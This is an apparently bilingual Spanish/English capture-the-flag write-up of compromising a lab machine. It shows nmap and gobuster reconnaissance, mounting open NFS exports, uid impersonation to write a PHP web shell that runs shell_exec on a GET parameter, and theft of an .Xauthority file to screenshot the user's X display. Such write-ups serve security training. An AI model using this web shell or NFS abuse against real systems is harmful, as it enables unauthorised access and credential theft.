





:::::{.spanish}
- [Reconocimiento](#reconocimiento)<br>
- [Obteniendo acceso a la máquina víctima](#obteniendo-acceso-a-la-máquina-víctima)<br>
	- [Intento con Keepass database file (kdbx)](#intento-con-keepass-database-file-kdbx)<br>
	- [RCE web-shell en php](#rce-web-shell-en-php)<br>
- [Escalada de privilegios](#escalada-de-privilegios)<br>
:::::

:::::{.english}
- [Recognition](#recognition)<br>
- [Gaining access to the target machine](#gaining-access-to-the-target-machine)<br>
	- [Attempt with Keepass database file (kdbx)](#attempt-with-keepass-database-file-kdbx)<br>
	- [RCE web-shell on php](#rce-web-shell-on-php)<br>
- [Privilege escalation](#privilege-escalation)<br>
:::::

:::::{.spanish}

# Reconocimiento

Empezamos con nmap para ver los puertos abiertos de la máquina:


```bash
  nmap -p- --open -T5 -n -Pn 10.10.11.191 -oG openTCPports
```
<br>

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-21 11:38 CET
Nmap scan report for 10.10.11.191
Host is up (0.046s latency).
Not shown: 62200 closed tcp ports (conn-refused), 3328 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
37295/tcp open  unknown
39085/tcp open  unknown
40725/tcp open  unknown
41253/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 15.93 seconds
```

Extraemos los puertos obtenidos 

```bash
 grePorts
```
<br> 

```
 [!] Open ports: 22,80,111,37295,39085,40725,41253
```

Ahora ejecutamos un conjunto de scripts de reconocimiento predefinidos por nmap para recopilar información sobre los servicios expuestos en la máquina objetivo.

```bash
 nmap -p22,80,111,37295,39085,40725,41253 -sVC 10.10.11.191 -oN openTCPservices
```
<br>

```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33076/udp6  mountd
|   100005  1,2,3      37295/tcp   mountd
|   100005  1,2,3      37554/udp   mountd
|   100005  1,2,3      48007/tcp6  mountd
|   100021  1,3,4      33429/udp6  nlockmgr
|   100021  1,3,4      34107/tcp6  nlockmgr
|   100021  1,3,4      40725/tcp   nlockmgr
|   100021  1,3,4      41020/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
37295/tcp open  mountd   1-3 (RPC #100005)
39085/tcp open  mountd   1-3 (RPC #100005)
40725/tcp open  nlockmgr 1-4 (RPC #100021)
41253/tcp open  mountd   1-3 (RPC #100005)
```


Antes de indigar más en los volúmenes NFS echaremos un vistazo a la página web.

# Obteniendo acceso a la máquina víctima

La página web en sí no parece tener mucha información; es la típica página modelo que nos solemos encontrar. Parece que hay una sección de login pero no nos lleva a ningún lado.

Vamos a echarle un vistazo entonces a RPC y en paralelo dejaremos trabajando gobuster para encontrar  algún recurso en la web.

```bash
 gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.11.191
```

Listamos los recursos compartidos a nivel de red en el equipo objetivo.

```bash
 showmount -e 10.10.11.191
```
<br>

```
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

Creamos un punto de montaje y montamos el volumen compartido:

```bash
  mkdir /mnt/ross ; mount -t nfs 10.10.11.191:/home/ross /mnt/ross
```

## Intento con Keepass database file (kdbx)

Listamos los recursos del volumen montado:

```bash
  tree /mnt/ross
```
<br>

```
/mnt/ross
├── Desktop
├── Documents
│   └── Passwords.kdbx
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos
```

Nos interesa el archivo con extensión "kdbx" perteneciente al software gestor de contraseñas KeePass.

Lo traemos a nuestro equipo y lanzamos "keepass2john":

```bash 
  keepass2john Password.kdbx 
```

Sin embargo ...

```
   ! Passwords.kdbx : File version '40000' is currently not supported!
```

Creamos un pequeño script en bash para usar una herramienta cli para encontrar la contraseña por fuerza bruta (disponible en la página de scripts).


La velocidad es muy lenta, aunque se paralelice por lo que me hace pensar que el fichero es un agujero sin salida, puesto ahí para distraer.

## RCE web-shell en php

Dado que parece que no hay nada de interés en este volumen, montamos el otro volumen, igual que antes:

```bash
 mkdir /mnt/html ; mount -t nfs 10.10.11.191:/var/www/html /mnt/html
```

En principio no podemos acceder al directorio. Con el comando `ls -l` vemos que el dueño es un usuario con uid 2017 por lo que ejecutamos:

```bash
 useradd squash -u 2017 -m -s /bin/bash ; sudo -u squash bash
```

Pudiendo acceder ya a la carpeta en cuestión, vamos a comprobar con la creación de un fichero de prueba para ver si lo podemos ver.

```bash
 echo "Hello! This is a test.!" > test.html
```



Efectivamente podemos acceder al archivo, así que veamos si podemos hacer lo mismo con php.

```bash
  echo "<pre><?php phpinfo(); ?><pre>" > info.php
```

Y efectivamente:



Con esto ya podemos establecer una web shell que medinte GET obtenga el comando que queramos ejecutar en la máquina objetivo.

```php
<?php

echo "<pre>". shell_exec($_GET["cmd"]) . " </pre>";

?>
```

# Escalada de privilegios

Una vez ganado el acceso al sistema, nos interesa volver un poco atrás y echar un vistazo al directorio de ross, donde vemos algo que nos puede ser de utilidad para la escalada:





Copiamos el fichero a nuestro usuario actual, para ver si podemos hacer una captura de pantalla.

Si ejecutamos el siguiente comando, veremos que obtenemos que no hay ninguna pantalla disponible:

```bash
 xdpyinfo -display :0
```
<br>

```
 xdpyinfo:  unable to open display ":0".
```

Sin embargo no nos deja descargarlo. Tras investigar un poco parece ser porque no tenemos los permisos suficientes, por lo que nos aprovechamos de la montura nfs y la gestionamos con un usuario cuyo uid sea 1001.


Con el fichero ".Xauthority" en nuestro usuario actual, volvemos a ejecutar el comando anterior y ...

```
xdpyinfo -display :0
name of display:    :0
version number:    11.0
vendor string:    The X.Org Foundation
vendor release number:    12013000
X.Org version: 1.20.13
maximum request size:  16777212 bytes
motion buffer size:  256
bitmap unit, bit order, padding:    32, LSBFirst, 32
image byte order:    LSBFirst
...
```

No olvidemos que hay que darle valor a la variable HOME porque si no no sabrá donde está el fichero.

Hacemos una captura:

```bash
 xwd -root -screen -silent -display :0 > file.xwd
```

Nos la pasamos a nuestro equipo y:


:::::

:::::{.english}

# Recognition

We start with nmap to see the open ports of the machine:


```bash
  nmap -p- --open -T5 -n -Pn 10.10.11.191 -oG openTCPports
```
<br>

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-21 11:38 CET
Nmap scan report for 10.10.11.191
Host is up (0.046s latency).
Not shown: 62200 closed tcp ports (conn-refused), 3328 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
37295/tcp open  unknown
39085/tcp open  unknown
40725/tcp open  unknown
41253/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 15.93 seconds
```

We extract the obtained ports

```bash
 grePorts
```
<br> 

```
 [!] Open ports: 22,80,111,37295,39085,40725,41253
```

We now run a set of reconnaissance scripts predefined by nmap to gather information about the services exposed on the target machine.

```bash
 nmap -p22,80,111,37295,39085,40725,41253 -sVC 10.10.11.191 -oN openTCPservices
```
<br>

```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33076/udp6  mountd
|   100005  1,2,3      37295/tcp   mountd
|   100005  1,2,3      37554/udp   mountd
|   100005  1,2,3      48007/tcp6  mountd
|   100021  1,3,4      33429/udp6  nlockmgr
|   100021  1,3,4      34107/tcp6  nlockmgr
|   100021  1,3,4      40725/tcp   nlockmgr
|   100021  1,3,4      41020/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
37295/tcp open  mountd   1-3 (RPC #100005)
39085/tcp open  mountd   1-3 (RPC #100005)
40725/tcp open  nlockmgr 1-4 (RPC #100021)
41253/tcp open  mountd   1-3 (RPC #100005)
```
Before we dig deeper into the NFS volumes, let's take a look at the website.

# Gaining access to the target machine

The web page itself doesn't seem to have much information; it is the typical model page that we usually find. There seems to be a login section but it doesn't take us anywhere.

So let's take a look at RPC and in parallel we'll leave gobuster working to find some resources on the web.

```bash
 gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.11.191
```

We list the shared resources at the network level on the target computer.

```bash
 showmount -e 10.10.11.191
```
<br>

```
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

We create a mount point and mount the shared volume:

```bash
  mkdir /mnt/ross ; mount -t nfs 10.10.11.191:/home/ross /mnt/ross
```

## Attempt with Keepass database file (kdbx)

We list the resources of the mounted volume:

```bash
  tree /mnt/ross
```
<br>

```
/mnt/ross
├── Desktop
├── Documents
│   └── Passwords.kdbx
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos
```

We are interested in the file with extension "kdbx" belonging to the KeePass password manager software.

We bring it to our computer and launch "keepass2john":

```bash 
  keepass2john Password.kdbx 
```

However ...

```
   ! Passwords.kdbx : File version '40000' is currently not supported!
```

We created a small bash script to use a cli tool to find the password by brute force (available on the scripts page).

The speed is very slow, even though it freezes so it makes me think that the file is a dead-end hole, put there to distract.

## RCE web-shell on php

Since there seems to be nothing of interest in this volume, we mount the other volume, just as before:

```bash
 mkdir /mnt/html ; mount -t nfs 10.10.11.191:/var/www/html /mnt/html
```

In principle we can not access the directory. With the command `ls -l` we see that the owner is a user with uid 2017 so we execute:

```bash
 useradd squash -u 2017 -m -s /bin/bash ; sudo -u squash bash
```

Now that we can access the folder in question, let's test by creating a test file to see if we can see it.

```bash
 echo "Hello! This is a test.!" > test.html
```


We can indeed access the file, so let's see if we can do the same with php.

```bash
  echo "<pre><?php phpinfo(); ?><pre>" > info.php
```

And:


With this we can now set up a web shell that will GET the command we want to execute on the target machine.

```php
<?php

echo "<pre>". shell_exec($_GET["cmd"]) . " </pre>";

?>
```

# Privilege escalation

Once we have gained access to the system, we are interested in going back a bit and taking a look at the ross directory, where we see something that may be useful for climbing:


We copy the file to our current user, to see if we can take a screenshot.

If we run the following command, we will see that we get that there is no screen available:

```bash
 xdpyinfo -display :0
```
<br>

```
 xdpyinfo:  unable to open display ":0".
```

However it does not let us download it. After some research it seems that we do not have enough permissions, so we take advantage of the nfs mount and manage it with a user whose uid is 1001.


With the file ".Xauthority" in our current user, we run the previous command again and ...

```
xdpyinfo -display :0
name of display:    :0
version number:    11.0
vendor string:    The X.Org Foundation
vendor release number:    12013000
X.Org version: 1.20.13
maximum request size:  16777212 bytes
motion buffer size:  256
bitmap unit, bit order, padding:    32, LSBFirst, 32
image byte order:    LSBFirst
...
```

Let's not forget that we have to give value to the variable HOME because if not it will not know where the file is.

We make a capture:

```bash
 xwd -root -screen -silent -display :0 > file.xwd
```

We passed it on to our team and:


:::::